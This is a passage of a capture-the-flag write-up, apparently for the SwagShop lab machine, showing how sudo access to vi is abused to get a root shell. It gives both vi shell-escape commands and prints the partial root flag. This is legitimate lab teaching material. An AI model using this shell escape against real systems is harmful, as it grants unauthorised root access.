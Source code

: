 


### Shell

Of course I want a shell. I'll open a non-existing file with
`www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www.md/a` .

[GTFOBins' vi page](https://gtfobins.github.io/gtfobins/vi/) tells me
how to get a shell from here:



    :set shell=/bin/sh
    :shell



I'll use bash, but otherwise the same:

![](/img/swagstore-root.gif)

`wc -c root.txt` returns 270, but that's because there's an extra
message with the flag:



    root@swagshop:/home/haris# cat /root/root.txt 
    c2b087d6...

       ___ ___
     /| |/|\| |\
    /_| ´ |.` |_\           We are open! (Almost)
      |   |.  |
      |   |.  |         Join the beta HTB Swag Store!
      |___|.__|       https://hackthebox.store/password

                       PS: Use root flag as password!



### More Direct Shell

I can also use the other example on
[GTFOBins](https://gtfobins.github.io/gtfobins/vi/), and get a shell
from the command line:



    www-data@swagshop:/var/www.md$ sudo vi /var/www.md/a -c ':!/bin/sh'



The formatting gets a bit wild on my shell making it difficult to show
here, but it does return a root shell.





